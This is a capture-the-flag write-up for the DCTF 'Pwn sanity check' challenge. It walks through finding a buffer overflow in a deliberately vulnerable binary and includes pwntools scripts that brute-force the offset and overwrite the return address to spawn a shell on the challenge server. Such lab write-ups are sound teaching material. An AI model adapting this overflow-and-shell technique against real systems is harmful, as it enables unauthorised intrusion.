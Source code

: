 ```yaml
---
title: Pwn sanity check
layout: post
author: v1per
date: 2021-05-17 18:53:00 +0530
type: Pwn
difficulty: easy
prompt: This should take about 1337 seconds to solve.  **nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480**
---
```


First, I used the file command on the **pwn_sanity_check** file. This is the output I got:

![](/images/v1per/dctfpsc1.png)

So, we know that it's a 64-bit LSB executable. Next, I opened the binary file usng **Ghidra**.
The main function looked like this:

![](/images/v1per/dctfpsc2.png)

I opened the **vuln()** function, and found this:

![](/images/v1per/dctfpsc3.png)

Here, I saw that the input is being taken using 'fgets' and stored in 'local_48'. Seeing this, the first thought which came to my mind was that this could be a buffer overflow challenge. In the next line I saw that if the value of 'local_c' is equal to '-0x21523f22', it prints out a text and calls the 'shell()' function. Let's open that:

![](/images/v1per/dctfpsc4.png)

It prints out that it is spawing the '/bin/sh process', but it doesn't really do anything except printing that. So, I guess that's a deadend.

Looking around further, I found a 'win()' function which looked interesting:

![](/images/v1per/dctfpsc5.png)

This function takes two parameters as input and compares their values and actually spawns a shell. Now, here I thought what if we could bypass the if conditions and directly go to the 'system("/bin/sh");' line.
I took note of the address of the line just before the line in which the shell was being spawned: **0x004006d6**

![](/images/v1per/dctfpsc6.png)

Now, we need to find the offset at which our control enters the win function, I used this python code to find it:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

n=0
while(True):
	error=False
	payload=b'A'*n+p64(0x004006d6)

	r=remote(host,port)
	r.sendline(payload)
	r.recvline()
	r.recvline()

	try:
		s=r.recvline()
	except:
		error=True

	if error:
		print(n,'Trying...')
	else:
		print(n,'is the offset')
		break
	n+=1
```

From this script, the offset came out to be **72**. Now, it's time to finally find our flag.
I ran this script:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

payload=b'A'*72+p64(0x004006d6)

r=remote(host,port)
r.sendline(payload)
r.interactive()
```

And, yay! I got the shell.
I typed in 'ls' and saw that there's a flag.txt file in there, so i did a 'cat flag.txt' and got the flag!
```dctf{Ju5t_m0v3_0n}```

![](/images/v1per/dctfpsc7.png)